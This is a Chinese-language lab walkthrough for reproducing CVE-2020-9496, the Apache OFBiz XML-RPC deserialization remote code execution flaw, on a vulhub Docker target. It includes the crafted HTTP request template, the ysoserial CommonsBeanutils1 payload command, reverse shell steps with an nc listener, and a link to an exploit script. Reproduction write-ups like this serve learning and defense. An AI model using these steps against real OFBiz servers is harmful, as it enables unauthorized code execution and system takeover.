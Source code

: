 # CVE-2020-9496 Apache OfBiz反序列化命令执行漏洞

##  0x00 漏洞描述

Apache OFBiz全称是The ApacheOpen For Business Project。是开放的电子商务平台，是一个非常著名的开源项目，提供了创建基于最新的J2EE/XML规范和技术标准，构建大中型企业级、快平台、跨数据库、跨应用服务器的多层、分布式电子商务类WEB应用系统的框架。OFBiz几乎实现了所有的J2EE核心设计模式，各个模块之间的耦合比较松散，用户能够比较容易的根据自己的需要进行拆卸，非常灵活。

Apache ofbiz 存在反序列化漏洞，攻击者通过访问未授权接口，构造特定的xmlrpc http请求，可以造成远程代码执行的影响。

## 0x01 影响版本

Apache Ofbiz：< 17.12.04

## 0x02 修复建议

1、建议升级至最新版本

## 0x03 环境搭建

1、下载地址：

`https://github.com/vulhub/vulhub/tree/master/ofbiz/CVE-2020-9496`

`cd CVE-2020-9496`

`docker-compose up -d`

![](images/1.png)

2、访问`https://your-ip:8443/myportal/control/main`访问注册页面，看到版本为17.12.01。

![](images/2.png)

3、安装漏洞复现需要的java环境

安装jdk1.8或以上的java环境。自行下载、安装、配置环境变量。

4、安装maven，使用wget下载mvn

`wget https://mirrors.bfsu.edu.cn/apache/maven/maven-3/3.6.3/binaries/apache-maven-3.6.3-bin.tar.gz`
`mkdir /opt/maven`
`tar zxvf apache-maven-3.6.3-bin.tar.gz -C /opt/maven/`

配置环境变量`vim /etc/profile`，在最后追加：

`export MAVEN_HOME=/opt/maven/apache-maven-3.6.3`
`export PATH=$MAVEN_HOME/bin:$PATH`

刷新环境变量，查看maven版本

source /etc/profile
mvn -version

![](images/3.png)

5、在GitHub上下载java反序列化利用工具ysoserial

`git clone https://github.com/frohoff/ysoserial.git`

![](images/4.png)

5.1 进入ysoserial目录，使用maven下载编译需要的包，编译成功为以下图片

`mvn clean package -DskipTests`

![](images/5.png)

5.2 在ysoserial目录可以看到有一个target目录，进入此目录，可以看到有工具包ysoserial-0.0.6-SNAPSHOT-all.jar

![](images/6.png)

## 0x04 漏洞利用

### CVE-2020-9496漏洞复现

1、在页面url访问以下链接使用Burpsuite抓包，并发送到Repeater模块

`https://your-ip:8443/webtools/control/xmlrpc`

2、把数据包替换成以下数据包

`POST /webtools/control/xmlrpc HTTP/1.1`
`Host: your-ip`
`Content-Type: application/xml`
`Content-Length: 4093`
`<?xml version="1.0"?>`
`<methodCall>`
`<methodName>ProjectDiscovery</methodName>`
`<params>`
`<param>`
`<value>`
`<struct>`
`<member>`
`<name>test</name>`
`<value>`
`<serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">[base64-payload]</serializable>`
`</value>`
`</member>`
`</struct>`
`</value>`
`</param>`
`</params>`
`</methodCall>`

3、使用使用ysoserial的CommonsBeanutils1来生成Payload在tmp目录写入文件

![](images/7.png)

4、复制base64编码的payload，粘贴到burpsuite数据包中base64payload的地方

![](images/8.png)

重放请求，返回200（xml内容前需要一个空行，否则解析有问题，请求返回400）

![](images/9.png)

可以进docker中查看是否写入成功

![](images/10.png)

### 反弹shell

1、利用漏洞反弹shell，去以下网址把反弹shell的payload进行base64编码

```
http://www.jackson-t.ca/runtime-exec-payloads.html
```

![](images/11.png)

2、把编码后的shell在使用ysoserial工具进行一次base64编码

`java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsBeanutils1 "[getshell的base64编码转换后内容]" | base64 | tr -d "\n"`

![](images/12.png)

3、nc设置监听，把生成的exp放入到burp的数据包中发送，查看nc监听以返回shell

![](images/13.png)

![](images/14.png)

## 0x05 利用脚本

pocsuite3脚本exp：

`https://github.com/A11an10/poc/blob/main/apache_ofbiz_cve20209496_poc.py`

